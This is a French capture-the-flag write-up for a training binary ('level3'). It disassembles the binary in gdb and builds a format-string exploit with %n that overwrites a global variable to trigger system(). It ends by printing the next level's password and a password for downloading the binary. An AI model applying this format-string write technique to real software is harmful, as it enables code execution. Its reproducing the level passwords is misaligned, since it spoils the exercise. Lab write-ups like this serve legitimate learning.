 On se connecte sur le level3, ou se trouve un **binaire** <code>level3</code>.

On cherche a savoir ce que fait ce binaire:
```gdb
> gdb level3 -q
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) > disas main
Dump of assembler code for function main:
   0x0804851a <+0>:     push   %ebp
   0x0804851b <+1>:     mov    %esp,%ebp
   0x0804851d <+3>:     and    $0xfffffff0,%esp
   0x08048520 <+6>:     call   0x80484a4 <v>
   0x08048525 <+11>:    leave
   0x08048526 <+12>:    ret
End of assembler dump.
> disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x218,%esp
   0x080484ad <+9>:     mov    0x8049860,%eax
   0x080484b2 <+14>:    mov    %eax,0x8(%esp)
   0x080484b6 <+18>:    movl   $0x200,0x4(%esp)
   0x080484be <+26>:    lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:    mov    %eax,(%esp)
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:    lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:    mov    %eax,(%esp)
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>
   0x080484da <+54>:    mov    0x804988c,%eax
   0x080484df <+59>:    cmp    $0x40,%eax
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
   0x080484e4 <+64>:    mov    0x8049880,%eax
   0x080484e9 <+69>:    mov    %eax,%edx
   0x080484eb <+71>:    mov    $0x8048600,%eax
   0x080484f0 <+76>:    mov    %edx,0xc(%esp)
   0x080484f4 <+80>:    movl   $0xc,0x8(%esp)
   0x080484fc <+88>:    movl   $0x1,0x4(%esp)
   0x08048504 <+96>:    mov    %eax,(%esp)
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:   movl   $0x804860d,(%esp)
   0x08048513 <+111>:   call   0x80483c0 <system@plt>
   0x08048518 <+116>:   leave
   0x08048519 <+117>:   ret
End of assembler dump.
```
Ici, il est impossible de faire un **buffer overflow** avec le fgets car il prend une taille plus petite que la taille max de notre variable:
> <pre><code>char str[520];
> fgets(str, 512, stdin);</code></pre>

Cependant on peut faire un **Format String Exploit** avec le **printf**

On commence par chercher l'**Offset**:
<pre><code> > python -c 'print "BBBB" + "|%08x" * 4' | ./level3
BBBB|00000200|b7fd1ac0|b7ff37d0|42424242
</code></pre>
> Ici le 08 nous permet de forcer l'affichage d'une adresse
>
> Et le 42424242 représente notre B en ASCII

On cherche par la suite l'adresse de **m**:
<pre><code>> objdump -t level3 | grep m
level3:     file format elf32-i386
...
0804988c g     O .bss   00000004              m
...</code></pre>

```gdb
> python -c 'print "\x8c\x98\x04\x08" + "%4$08n"' > /tmp/payload
> gdb -q level3
Reading symbols from /home/user/level3/level3...(no debugging symbols found)...done.
(gdb) > b *0x080484df
Breakpoint 1 at 0x80484df
(gdb) > run < /tmp/payload
Starting program: /home/user/level3/level3 < /tmp/payload


Breakpoint 1, 0x080484df in v ()
(gdb) > x/x 0x804988c
0x804988c <m>:  0x00000004
```
On sait que l'on cherche 64 (0x40), donc il nous manque 60

<pre><code>> (python -c 'print "\x8c\x98\x04\x08" + "%60d" + "%4$08n"'; cat) | ./level3
                                                         512
Wait what?!
> cd ../level4 && cat .pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
</code></pre>


For download :
<pre><code>scp -P4242 level3@192.168.1.78:level3 .</code></pre>
> Password : 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
